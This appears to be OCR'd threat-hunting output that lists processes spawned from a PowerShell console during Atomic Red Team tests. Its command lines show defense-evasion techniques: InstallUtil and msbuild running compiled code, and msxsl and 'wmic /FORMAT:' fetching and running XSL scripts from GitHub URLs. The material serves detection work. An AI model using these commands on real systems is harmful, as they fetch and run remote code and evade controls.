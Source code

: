 command_line C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\AtomicRedTeam\atomics\T1118\src\T1118.dll "C:\Windows\system32\cmd.exe" /c "C:\Windows\system32\cmd.exe" /c "C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:C:\AtomicRedTeam\atomics\T1118\src\T1118.dll C:\AtomicRedTeam\atomics\T1118\src\T1118.cs "
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:C:\AtomicRedTeam\atomics\T1118\src\T1118.dll C:\AtomicRedTeam\atomics\T1118\src\T1118.cs
C:\Windows\Microsoft.NET\Framework\v4.0.30319\cvtres.exe /NOLOGO /READONLY /MACHINE:IX86 "/OUT:C:\Users\NEWTSC~1\AppData\Local\Temp\RES2DBF.tmp" "c:\AtomicRedTeam\atomics\T1118\src\CSC137A13BC43A744468D2FF98C3FC48643.TMP" "C:\Windows\system32\cmd.exe" /c "C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /? C:\AtomicRedTeam\atomics\T1118\src\T1118.dll"

Showing results 7-12 of 43

explicate parvuli

What descendants were spawned from the interactive PowerShell console?

process_name InstallUtil.exe
cmd.exe cmd.exe
MSBuild.exe cmd.exe cmd.exe
cmd.exe cmd.exe

command_line C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /? C:\AtomicRedTeam\atomics\T1118\src\T1118.dll "C:\Windows\system32\cmd.exe" /c "C:\Windows\system32\cmd.exe" /c "C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe T1127.csproj" C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe T1127.csproj "C:\Windows\system32\cmd.exe" /c "C:\Windows\system32\cmd.exe" /c "C:\Windows\Temp\msxsl.exe C:\AtomicRedTeam\atomics\T1220\src\msxslxmlfile.xml C:\AtomicRedTeam\atomics\T1220\src\msxslscript.xsl" "C:\Windows\system32\cmd.exe" /c "C:\Windows\system32\cmd.exe" /c "C:\Windows\Temp\msxsl.exe https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslxmlfile.xml https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslscript.xsl"

Showing results 13-20 of 43

explicate parvuli

What descendants were spawned from the interactive PowerShell console?

process_name cmd.exe cmd.exe WMIC.exe cmd.exe cmd.exe
WMIC.exe
cmd.exe cmd.exe

command_line "C:\Windows\system32\cmd.exe" /c "C:\Windows\system32\cmd.exe" /c "wmic.exe process /FORMAT:list" wmic.exe process /FORMAT:list "C:\Windows\system32\cmd.exe" /c "C:\Windows\system32\cmd.exe" /c "wmic.exe process /FORMAT:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/wmics cript.xsl" wmic.exe process /FORMAT:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/wmics cript.xsl "C:\Windows\system32\cmd.exe" /c "C:\Windows\system32\cmd.exe" /c "C:\Windows\Temp\msxsl.exe C:\AtomicRedTeam\atomics\T1220\src\msxslxmlfile.xml C:\AtomicRedTeam\atomics\T1220\src\msxslscript.xsl"

Showing results 21-28 of 43

explicate parvuli

What descendants were spawned from the interactive PowerShell console?

process_name msxsl.exe
calc.exe cmd.exe cmd.exe
